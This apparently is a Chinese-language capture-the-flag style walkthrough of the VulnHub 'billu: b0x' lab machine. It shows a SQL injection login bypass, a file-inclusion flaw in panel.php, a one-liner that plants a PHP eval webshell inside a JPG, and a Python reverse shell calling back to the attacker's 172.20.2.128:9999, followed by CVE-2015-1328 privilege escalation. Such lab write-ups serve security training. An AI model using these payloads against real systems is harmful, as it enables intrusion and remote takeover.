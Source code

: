 [https://www.vulnhub.com/entry/billu-b0x,188/](https://www.vulnhub.com/entry/billu-b0x,188/)

`index.php`提示进行sql注入,但使用万能密码进行初步尝试,返回`Try Again`,推测闭合方式不正确或者存在过滤

`dirsearch`扫描得到的主要路径

```
http://172.20.2.129:80/add.php
http://172.20.2.129:80/c.php
http://172.20.2.129:80/index.php
http://172.20.2.129:80/show.php
http://172.20.2.129:80/test.php
http://172.20.2.129:80/head.php
http://172.20.2.129:80/in
http://172.20.2.129/phpmy
```

`http://172.20.2.129/phpmy`跳转到`phpmyadmin`的登录页面

打开`test.php`提示要向其传递`file`参数,推测其可能为文件包含或文件下载,尝试GET传参失败,使用POST传参成功

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/20211104162735.png)

`index.php`关键内容如下

```php
$uname=str_replace('\'','',urldecode($_POST['un']));
$pass=str_replace('\'','',urldecode($_POST['ps']));
$run='select * from auth where  pass=\''.$pass.'\' and uname=\''.$uname.'\'';
```

传入`un= or 1=1#&ps=\`

此时语句为`select * from auth where pass='\' and uname=' or 1=1#'`,pass的内容为`\' and uname=`

成功登录

`in`打开显示为`phpinfo`的内容,`add.php`打开显示存在上传点,但查看源代码后可知其不存在后端

`show.php`

```php
<?php
include('c.php');

if(isset($_POST['continue']))
{
	$run='select * from users ';
	$result = mysqli_query($conn, $run);
if (mysqli_num_rows($result) > 0) {
echo "<table width=90% ><tr><td>ID</td><td>User</td><td>Address</td><td>Image</td></tr>";
 while($row = mysqli_fetch_assoc($result)) 
   {
	   echo '<tr><td>'.$row['id'].'</td><td>'.htmlspecialchars ($row['name'],ENT_COMPAT).'</td><td>'.htmlspecialchars ($row['address'],ENT_COMPAT).'</td><td><img src="uploaded_images/'.htmlspecialchars ($row['image'],ENT_COMPAT).'" height=90px width=100px></td></tr>';
}
   echo "</table>";
}
}

?>
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041631621.png)

`c.php`中含有数据库连接密码`$conn = mysqli_connect("127.0.0.1","billu","b0x_billu","ica_lab");`

尝试利用该密码进行登录和ssh连接均失败,使用该密码成功登录`phpmyadmin`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041633211.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041634143.png)

使用查询得到的用户名和密码成功登录网站

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041635215.png)

`panel.php`的内容

```php
<?php
session_start();

include('c.php');
include('head2.php');
if(@$_SESSION['logged']!=true )
{
		header('Location: index.php', true, 302);
		exit();
	
}



echo "Welcome to billu b0x ";
echo '<form method=post style="margin: 10px 0px 10px 95%;"><input type=submit name=lg value=Logout></form>';
if(isset($_POST['lg']))
{
	unset($_SESSION['logged']);
	unset($_SESSION['admin']);
	header('Location: index.php', true, 302);
}
echo '<hr><br>';

echo '<form method=post>

<select name=load>
    <option value="show">Show Users</option>
	<option value="add">Add User</option>
</select> 

 &nbsp<input type=submit name=continue value="continue"></form><br><br>';
if(isset($_POST['continue']))
{
	$dir=getcwd();
	$choice=str_replace('./','',$_POST['load']);
	
	if($choice==='add')
	{
       		include($dir.'/'.$choice.'.php');
			die();
	}
	
        if($choice==='show')
	{
        
		include($dir.'/'.$choice.'.php');
		die();
	}
	else
	{
		include($dir.'/'.$_POST['load']);
	}
	
}


if(isset($_POST['upload']))
{
	
	$name=mysqli_real_escape_string($conn,$_POST['name']);
	$address=mysqli_real_escape_string($conn,$_POST['address']);
	$id=mysqli_real_escape_string($conn,$_POST['id']);
	
	if(!empty($_FILES['image']['name']))
	{
		$iname=mysqli_real_escape_string($conn,$_FILES['image']['name']);
	$r=pathinfo($_FILES['image']['name'],PATHINFO_EXTENSION);
	$image=array('jpeg','jpg','gif','png');
	if(in_array($r,$image))
	{
		$finfo = @new finfo(FILEINFO_MIME); 
	$filetype = @$finfo->file($_FILES['image']['tmp_name']);
		if(preg_match('/image\/jpeg/',$filetype )  || preg_match('/image\/png/',$filetype ) || preg_match('/image\/gif/',$filetype ))
				{
					if (move_uploaded_file($_FILES['image']['tmp_name'], 'uploaded_images/'.$_FILES['image']['name']))
							 {
							  echo "Uploaded successfully ";
							  $update='insert into users(name,address,image,id) values(\''.$name.'\',\''.$address.'\',\''.$iname.'\', \''.$id.'\')'; 
							 mysqli_query($conn, $update);
							  
							}
				}
			else
			{
				echo "<br>i told you dear, only png,jpg and gif file are allowed";
			}
	}
	else
	{
		echo "<br>only png,jpg and gif file are allowed";
		
	}
}


}

?>
```

`include($dir.'/'.$_POST['load']);`存在文件包含,上传一张带有webshell的图片即可

`echo "<?php file_put_contents('uploaded_images/shell.php','<?php eval(\$_POST[a]);?>')?>" >> jack.jpg`

在`uploaded_images/shell.php`中得到一个webshell

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041648724.png)

存在python2的环境,利用python2反弹shell

```py
import socket
import subprocess
import os
ip="172.20.2.128"
port=9999
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((ip,port))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041701182.png)

有时候在使用`nc -lvvp`时会报错`nc: getnameinfo: Temporary failure in name resolution`

此时应该添加`n`参数,即`nc -lvnp`

使用`CVE-2015-1328`进行提权

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041723806.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202111041725713.png)